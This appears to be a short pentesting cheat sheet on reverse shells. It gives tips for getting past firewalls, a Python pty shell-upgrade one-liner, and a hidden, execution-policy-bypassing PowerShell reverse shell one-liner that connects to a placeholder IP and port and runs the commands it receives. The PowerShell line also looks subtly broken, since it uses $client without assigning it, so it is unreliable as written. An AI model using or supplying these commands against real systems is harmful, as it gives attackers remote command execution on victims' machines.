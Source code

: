 # Gold Rule #
  * Only use open ports to do your rev shell. Firewalls may prevent other ports
  * If a shell is not stable especially php web shells try using metasploit /multi/handler

# Upgrade Linux Shell with Python #
 * python -c 'import pty; pty.spawn("/bin/bash")'

# Windows #
1. Powershell
  * powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
